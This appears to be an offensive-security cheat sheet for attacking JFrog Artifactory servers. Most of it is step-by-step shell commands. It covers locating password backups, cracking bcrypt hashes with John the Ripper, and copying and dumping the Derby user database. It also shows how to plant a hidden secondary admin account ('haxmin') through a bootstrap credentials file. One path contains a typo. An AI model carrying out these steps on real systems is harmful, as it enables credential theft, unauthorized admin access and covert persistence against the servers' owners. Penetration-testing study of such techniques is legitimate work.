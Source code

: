 ```yaml
---
description: binary repository manager
---
```


# Artifactory

<details>

<summary>Enumeration</summary>

* Check if artifactory service is running
  *   ```bash
      ps aux | grep artifactory
      ```


* Start Artifactory service
  * ```bash
    sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
    ```

- Passwords stored in .json files
  * ```bash
    /<ARTIFACTORY FOLDER>/var/backup/access
    ```

</details>

<details>

<summary>Cracking Artifactory password</summary>

* Save the bcrypt hash to a text file (Without "bcrypt$")
  *

      <figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>


* ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt artifactory.hash
  ```

</details>

<details>

<summary>Compromising Artifactory's Database</summary>

* Copy the database from the original location && Remove lock files
  *   ```bash
      mkdir /tmp/hackeddb
      sudo cp -r /opt/jfrog/artifactory/var/data/access/derby /tmp/hackeddb
      sudo chmod 755 /tmp/hackeddb/derby
      sudo rm /tmp/hackeddb/derby/*.lck
      ```


* Connect to DB
  *   ```bash
      sudo /opt/jfrog/artaifactory/app/third-party/java/bin/java -jar /opt/derby/db-derby-10.15.1.3-bin/lib/derbyrun.jar ij
      connect 'jdbc:derby:/tmp/hackeddb/derby';
      ```


* Dump DB
  * ```bash
    select * from access_users;
    ```

</details>

<details>

<summary>Adding a Secondary Artifactory Admin Acc</summary>

* Create new file: /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
  *   ```bash
      haxmin@*=haxhaxhax
      ```


* Create new user
  *   ```bash
      sudo chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
      ```


* Restart Artifactory service
  *   ```bash
      sudo /opt/jfrog/artifactory/app/bin/artifactoryctl stop
      sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
      ```


* Verify that Artifactory would then load the bootstrap credential file for the new user
  *   ```bash
      sudo grep "Create admin user" /opt/jfrog/artifactory/var/log/console.log
      ```


* Login with new account
  * ```bash
    haxmin:haxhaxhax
    ```

</details>
